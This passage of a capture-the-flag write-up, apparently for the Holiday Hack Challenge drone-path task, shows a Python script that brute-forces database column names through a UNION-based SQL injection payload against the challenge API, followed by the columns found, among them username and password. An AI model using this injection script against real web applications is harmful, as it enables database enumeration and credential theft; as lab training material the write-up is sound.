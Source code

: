 From here, I struggled to find tables or columns I wanted to investigate, as the application would throw a `500 Server Error` any time all three columns were filled. I'm not sure way, but scripting this out shuffled the parameters in a way that worked.

`sqlite_schema` and its various analogues weren't available, which was causing `sqlmap` to choke, so I decided to brute force things using the [`sqlmap` wordlists](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-columns.txt). A quick script to brute force columns yielded predictable results:

```python
import requests

# URL and parameters
url = "https://hhc24-dronepath.holidayhackchallenge.com/api/v1.0/drones"
cookies = {
    "_ga_F6ZZNPR5E5": "GS1.1.1731440131.11.1.1731442954.0.0.0",
    "_ga": "GA1.1.1077666454.1731349865",
    "GCLB": "fb0453e3c1f452e6",
    "session": "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZnJpdGpvbGYifQ.Zz9yNQ.9mzdlLYAWFRe9P9f__nfp9Wfpcg"
}

with open('./common-columns.txt', 'r') as f:
    for table in f:
        params = {
            "drone": "Zapper' UNION SELECT {},1,1 from users; /*".format(table.strip())
        }

        # Headers and cookies
        headers = {
            "Host": "hhc24-dronepath.holidayhackchallenge.com",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0{}".format(table.strip()),
            "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Accept-Encoding": "gzip, deflate, br",
            "Referer": "https://hhc24-dronepath.holidayhackchallenge.com/workshop",
            "Sec-Fetch-Dest": "empty",
            "Sec-Fetch-Mode": "cors",
            "Sec-Fetch-Site": "same-origin",
            "Priority": "u=0",
            "Te": "trailers"
        }

        # Sending the GET request
        response = requests.get(url, headers=headers, cookies=cookies, params=params)

        # Output the response
        print("col: {}\t\t\t".format(table.strip()),end='')
        print("Status Code:", response.status_code)
```

Results (`grep 200 < results.txt`):
```
col: username                   Status Code: 200
col: rowid                      Status Code: 200
col: password                   Status Code: 200
col: password                   Status Code: 200
col: username                   Status Code: 200
col: oid                        Status Code: 200
col: avatar                     Status Code: 200
col: bio                        Status Code: 200
col: password                   Status Code: 200
```
